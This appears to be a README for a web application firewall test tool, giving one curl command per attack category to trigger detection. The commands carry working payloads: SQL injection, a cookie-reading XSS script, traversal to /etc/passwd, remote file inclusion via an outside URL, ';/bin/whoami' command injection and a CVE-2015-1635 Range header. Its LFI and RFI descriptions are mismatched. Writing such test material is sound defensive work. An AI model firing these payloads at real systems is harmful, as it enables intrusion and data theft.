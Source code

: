 # KSD Simulator

## Web Attack Tool

Identifies common application-level attack tools including vulnerability scanning, exploit tools and DoS programs like Pandora, Drive, LOIC, and Hulk.

Sample Attack Simulation:
This is an example request with a User-Agent string value of a well-known open source web application vulnerability scanner. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --user-agent "w3af.sourceforge.net"
```

## Web Protocal Attack

Identifies errors and anomalies related to the HTTP protocol including request body parsing errors and RFC violations like required request headers that are missing.

Sample Attack Simulation:
This is an example request where the Content-Type header specifies the request body content is “xml”, but doesn’t pass the data in XML format. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Content-Type: application/xml" --data "not_xml_format"
```

SQL Injection

Identifies database attack payloads, including those used during the initial reconnaissance phase of an attack session to enumerate database details, as well as data exfiltration attempts and timing-based enumerations. The group evaluates incoming payloads using a library of attack fingerprints that our security research team updates continuously.

Sample Attack Simulation:
This is an example SQLi attack that attempts to enumerate the database version in use. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=-1%20UNION%20ALL%20SELECT%20%40%40version%2C2%2C3--"
```

## Cross-Site Scripting

Blocks proof-of-concept attacks that attempt to identify exploit vectors, JavaScript event handler invocations, and attempts to access sensitive DOM objects.

Sample Attack Simulation:
This is an example XSS attack that attempts to trigger the JavaScript prompt function and display the current user’s cookie information. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=data%22%3E%3Cscript%3Eprompt%28document.cookie%29%3C%2Fscript%3E"
```

## Local File Inclusion

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=.././.././../etc/passwd"
```

## Remote File Inclusion

Identifies attacks including directory traversals, as well as attempts to access sensitive application configuration and operating system files.

Sample Attack Simulation:
This is an example LFI attack that attempts to directory traversal to access the operating system’s password file. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=http://cirt.net/rfiinc.txt"
```

## Command Injection

Identifies attempts to access and execute application-level and operating system commands including PHP code injection and web Bash/backdoor upload attempts.

Sample Attack Simulation:
This is an example CMDi attack that attempts to use the “whoami” operating system command to identify which user the web server application is running as. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=something;/bin/whoami"
```

## Web Platform Attack

Identifies attacks against the software platforms (including cloud, web and application-layers) that are not categorized in other attack groups.

Sample Attack Simulation:
This is an example request that specifies a Range request header payload similar to CVE-2015-1635. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Range: 18446744073709551615"
```
